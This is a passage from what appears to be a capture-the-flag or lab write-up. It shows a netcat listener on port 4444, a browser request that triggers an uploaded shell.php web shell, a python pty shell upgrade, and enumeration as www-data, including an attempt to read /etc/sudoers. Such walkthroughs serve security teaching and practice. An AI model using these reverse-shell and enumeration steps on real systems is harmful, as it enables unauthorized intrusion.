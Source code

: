 Now, we listen to port `4444` on the local device and wait for a reverse shell

```jsx
nc -lnvp 4444
```

Then on the browser, we visit the webpage, and we go to the file `/shell.php`

Its because we know it is hosted on `/var/www/html` so we simply put the address

`https://ip_address/shell.php`

Then we get a reverse shell yay~

we spawn a pretty shell

```jsx
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

we log in as `www-data`

```jsx
www-data@wir3:/$ ls -la
ls -la
total 1529952
drwxr-xr-x  22 root root       4096 Feb  2  2021 .
drwxr-xr-x  22 root root       4096 Feb  2  2021 ..
drwxr-xr-x   2 root root       4096 Feb  1  2021 bin
drwxr-xr-x   3 root root       4096 Feb  1  2021 boot
drwxr-xr-x  15 root root       3700 Jun  9 09:51 dev
drwxr-xr-x  94 root root       4096 Feb  2  2021 etc
drwxr-xr-x   3 root root       4096 Feb  1  2021 home
lrwxrwxrwx   1 root root         34 Feb  1  2021 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic
drwxr-xr-x  22 root root       4096 Feb  1  2021 lib
drwxr-xr-x   2 root root       4096 Feb  1  2021 lib64
drwx------   2 root root      16384 Feb  1  2021 lost+found
drwxr-xr-x   2 root root       4096 Jul 25  2018 media
drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt
drwxr-xr-x   2 root root       4096 Jul 25  2018 opt
dr-xr-xr-x 114 root root          0 Jun  9 09:51 proc
drwx------   3 root root       4096 Feb  2  2021 root
drwxr-xr-x  27 root root        840 Jun  9 09:52 run
drwxr-xr-x   2 root root      12288 Feb  1  2021 sbin
drwxr-xr-x   3 root root       4096 Feb  1  2021 srv
-rw-------   1 root root 1566572544 Feb  1  2021 swap.img
dr-xr-xr-x  13 root root          0 Jun  9 10:17 sys
drwxrwxrwt   2 root root       4096 Jun  9 09:51 tmp
drwxr-xr-x  10 root root       4096 Jul 25  2018 usr
drwxr-xr-x  13 root root       4096 Feb  2  2021 var
lrwxrwxrwx   1 root root         31 Feb  1  2021 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic
www-data@wir3:/$ cat /etc/sudoers
cat /etc/sudoers
cat: /etc/sudoers: Permission denied
www-data@wir3:/$ whoami
whoami
www-data

```

